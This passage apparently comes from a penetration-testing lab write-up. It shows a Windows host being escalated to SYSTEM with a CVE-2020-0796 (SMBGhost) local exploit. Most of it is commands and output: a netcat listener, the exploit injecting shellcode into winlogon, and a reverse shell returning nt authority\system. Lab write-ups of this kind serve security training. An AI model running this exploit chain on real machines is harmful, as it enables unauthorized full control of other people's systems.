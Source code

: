 ```
kali@kali:~$ nc -lvp 8081
listening on [any] 8081 ...
```

We can now trigger the exploit.

```
C:\Users\nathan\Nexus\nexus-3.21.0-05>cve-2020-0796-local.exe
cve-2020-0796-local.exe
-= CVE-2020-0796 LPE =-
by @danigargu and @dialluvioso_

Successfully connected socket descriptor: 216
Sending SMB negotiation request...
Finished SMB negotiation
Found kernel token at 0xffffab002ca2c060
Sending compressed buffer...
SEP_TOKEN_PRIVILEGES changed
Injecting shellcode in winlogon...
Success! ;)
```

Our listener indicates we have obtained a SYSTEM shell.

```
kali@kali:~$ nc -lvp 8081
listening on [any] 8081 ...
192.168.177.61: inverse host lookup failed: Host name lookup failure
connect to [KALI] from (UNKNOWN) [192.168.177.61] 49687
Microsoft Windows [Version 10.0.18362.719]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```****